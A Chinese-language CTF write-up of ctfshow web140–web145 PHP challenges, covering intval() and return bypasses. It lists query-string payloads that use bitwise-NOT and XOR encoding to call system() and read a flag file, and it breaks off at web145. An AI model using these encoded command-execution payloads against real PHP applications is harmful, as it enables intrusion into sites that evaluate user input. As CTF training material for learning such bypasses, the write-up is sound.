 羽师傅盲打，看[羽师傅](https://blog.csdn.net/miuzzx/article/details/109197158)

## web140

考点：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_b4c6cd43257c64096f99d29d89bb65ea.jpg)](wp_editor_md_b4c6cd43257c64096f99d29d89bb65ea.jpg)
intval()函数，它会将非数字字符转换成0.
所以可以用很多函数了。

    f1=md5&f2=md5
    f1=md5&f2=phpinfo

## web141

考点：
return的绕过。
由于执行了return之后，后面的不会执行了，所以需要绕过这个return。
php中，数字和命令可以做运算，从而绕过。例如：

    1-phpinfo()-1 ;

是可以输出phpinfo()的。
所以本题就可以实现绕过。
另：v3只能是数字字母，所以用羽师傅的脚本即可。

    ?v1=1&v3=-(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F)-&v2=1

## web142

考点：？
我做的时候在用int的溢出，后来发现可以是0

    ?v1=0
    ?v1=17779

## web143

和141类似，注意的是这里取反和or被过滤了，所以用异或的脚本。
其次就是脚本需要改一下过滤的字符。

    ?v1=1&v2=1&v3=*("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%00%06%0c%00"^"%7f%60%60%20%60%60%2a")?>

## web144

代码审计，v1是数字，v3长度只能为1，因此在v2构造命令即可。

    ?v1=1&v3=-&v2=(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)

## web145

考点：三目运算符
羽师傅nb
这样可以执行phpinfo:

